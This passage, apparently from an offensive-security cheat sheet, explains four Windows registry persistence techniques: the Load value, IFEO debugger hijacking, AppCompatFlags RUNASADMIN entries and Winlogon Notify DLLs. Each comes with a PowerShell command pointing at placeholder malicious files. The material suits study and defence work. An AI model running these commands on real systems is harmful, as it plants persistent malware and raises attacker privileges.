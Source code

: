    PowerShell Example to Add Malicious Program:
   ```powershell
   Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Windows" -Name "Load" -Value "C:\path\to\malicious.exe"
   ```

#### IFEO (Image File Execution Options for Debugger Hijacking)
   - Registry Path:
     - `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\`
     - `HKCU\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\`
   - Purpose

: Allows setting a debugger to launch instead of specific applications.
   - Abuse: By specifying a malicious executable as a debugger, an attacker can ensure that the malicious code is executed every time the targeted application is launched, achieving persistence.

   PowerShell Example to Set Debugger for Persistence:
   ```powershell
   Set-ItemProperty -Path "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\explorer.exe" -Name "Debugger" -Value "C:\path\to\malicious.exe"
   ```

#### AppCompatFlags (Application Compatibility Persistence)
   - Registry Path:
     - `HKCU\Software\Microsoft\Windows NT\CurrentVersion\AppCompatFlags\Layers`
   - Purpose: Used for application compatibility settings.
   - Abuse: Attackers can add malicious entries that force specific programs to run with elevated privileges or bypass User Account Control (UAC), ensuring persistence.

   PowerShell Example to Add AppCompat Entry:
   ```powershell
   Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\AppCompatFlags\Layers" -Name "C:\path\to\application.exe" -Value "~ RUNASADMIN"
   ```

#### Notify (GINA DLL Persistence)
   - Registry Path:
     - `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify`
   - Purpose: Specifies DLLs that the system loads during the login process for GINA (Graphical Identification and Authentication).
   - Abuse: An attacker can load malicious DLLs at login, ensuring persistence by injecting code into the login process.

   PowerShell Example to Add Malicious Notify DLL:
   ```powershell
   New-Item -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify\MaliciousNotify" -Force
   Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify\MaliciousNotify" -Name "DLLName" -Value "C:\path\to\malicious.dll"
   ```

# Privilege Escalation

